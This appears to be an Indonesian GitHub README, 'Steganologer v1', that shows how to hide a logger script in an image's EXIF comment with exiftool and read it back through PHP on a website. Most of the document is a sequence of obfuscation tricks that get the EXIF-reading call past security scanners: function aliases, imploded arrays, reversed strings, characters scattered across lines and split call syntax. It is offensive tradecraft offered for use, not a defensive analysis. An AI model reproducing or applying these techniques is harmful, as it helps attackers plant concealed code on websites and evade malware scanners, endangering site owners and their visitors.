 # Steganologer v1

Pada Steganologer versi 1 memanfaatkan exif metadata untuk menyisipkan script loger.
untuk membaca metadata suatu gambar anda bisa memakai function [exif_read_data()](http://php.net/manual/en/function.exif-read-data.php) dan [read_exif_data()](http://php.net/manual/en/function.read-exif-data.php) pada php.

Untuk memanipulasi exif metadata anda bisa menggunakan pothoshop,exifpilot dll pada sistem operasi windows, sedangkan pada linux anda bisa menggunakan exiftool.
Anda bisa menyisipkannya di logo atau icon pada website.


> exiftool -Comment="scriptloger" filegambar.jpg


### Reader


```php
$steganologer = exif_read_data("bunglon.jpg");
echo $steganologer['COMMENT'][0];
```

### Bypass

bila scanner memblacklist kata [exif_read_data()](http://php.net/manual/en/function.exif-read-data.php) .
anda bisa mengakalinya dengan [read_exif_data()](http://php.net/manual/en/function.read-exif-data.php).

bila [read_exif_data()](http://php.net/manual/en/function.read-exif-data.php) juga di blasklist.
anda masih bisa membypassnya dengan array lalu di implode.
```php
implode("_",["exif","read","data"])("bunglon.jpg")
```

bila kata "exif" di blacklist juga maka bisa di bypass dengan membalikkan katanya menjadi "fixe" lalu manfaatkan function [strrev()](http://php.net/manual/en/function.strrev.php) di php.

dan bila kata fixe juga di blacklist maka bisa di bypass dengan manjadikan tiap hurufnya menjadi array
```php
implode("",["e","x","i","f","_","r","e","a","d","_","d","a","t","a"])("bunglon.jpg")
```
dan bila array berikut 
```
'"e","x","i","f","_","r","e","a","d","_","d","a","t","a"' 
```
di blacklist maka pecah saja menjadi
```php
$kata[] = "e";
$kata[] = "x";
$kata[] = "i";
$kata[] = "f";
$kata[] = "_";
$kata[] = "r";
$kata[] = "e";
$kata[] = "a";
$kata[] = "d";
$kata[] = "_";
$kata[] = "d";
$kata[] = "a";
$kata[] = "t";
$kata[] = "a";
```

lalu sebarkan di beda line script asal urutannya benar pasti functionnya kembali seperti semula namun bila takut tak urut maka masukan keynya saja sehingga menjadi seperti berikut ini

```php
$kata[0] = "e";
$kata[1] = "x";
$kata[2] = "i";
$kata[3] = "f";
$kata[4] = "_";
$kata[5] = "r";
$kata[6] = "e";
$kata[7] = "a";
$kata[8] = "d";
$kata[9] = "_";
$kata[10] = "d";
$kata[11] = "a";
$kata[12] = "t";
$kata[13] = "a";
```

lalu sebar sesuka anda dan di line berapa pun nanti ketika di implode akan kembali. 

```php
implode("",$kata)("bunglon.jpg")
```

bila scanner memblacklist ")(" maka bypass dengan  memisahkan function implode

```php
$implode = implode("",$kata);

echo $implode("bunglon.jpg")
```

masih banyak function php yang bisa di manfaatkan untuk bermain loger explore dan manfaatkan.
